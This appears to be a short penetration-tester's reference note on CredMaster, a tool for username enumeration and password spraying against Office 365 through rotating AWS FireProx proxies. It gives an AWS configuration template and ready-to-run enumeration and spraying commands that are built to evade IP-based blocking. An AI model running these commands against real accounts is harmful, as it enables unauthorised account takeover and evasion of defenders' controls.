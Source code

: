 
# CredMaster
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### O365 User Enum
```bash
python3 credmaster.py --plugin o365enum --config aws.config -u usernames.txt -t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```

> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)